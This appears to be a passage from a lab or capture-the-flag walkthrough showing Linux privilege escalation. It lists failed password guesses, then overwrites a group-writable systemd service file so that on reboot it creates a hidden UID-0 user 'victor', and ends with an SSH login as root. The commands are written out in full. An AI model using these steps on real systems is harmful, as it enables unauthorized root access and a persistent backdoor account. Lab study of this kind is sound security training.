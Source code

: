 The logins below did not work against the web app listening TCP port 18000 or within the operating system. 
```bash
alexertech:myself
alexertech:myself
test:myself
cmeeks:myself
postgres:myself
root:myself
```

```bash
find /etc -type f -perm /g=w -exec ls -l {} + 2> /dev/null

# output
-rw-rw-r-- 1 root cmeeks 331 Aug 21 07:32 /etc/systemd/system/pythonapp.service
```

```bash
cat /etc/systemd/system/pythonapp.service

# output
[Unit]
Description=Python App
After=network-online.target

[Service]
Type=simple
WorkingDirectory=/home/cmeeks/restjson_hetemit
ExecStart=flask run -h 0.0.0.0 -p 50000
TimeoutSec=30
RestartSec=15s
User=cmeeks
ExecReload=/bin/kill -USR1 $MAINPID
Restart=on-failure

[Install]
WantedBy=multi-user.target
```

```bash
cat /etc/systemd/system/pythonapp.service > /tmp/pythonapp.service
sed -i "/User=/c\User=root" /tmp/pythonapp.service
sed -i "/ExecStart=/c\ExecStart=useradd -p $(openssl passwd -crypt password) -s /bin/bash -o -u 0 -g 0 -m victor" /tmp/pythonapp.service
cat /tmp/pythonapp.service > /etc/systemd/system/pythonapp.service
sudo reboot
```

```bash
ssh victor@192.168.59.117 # victor:password
id

# output
uid=0(root) gid=0(root) groups=0(root)
```
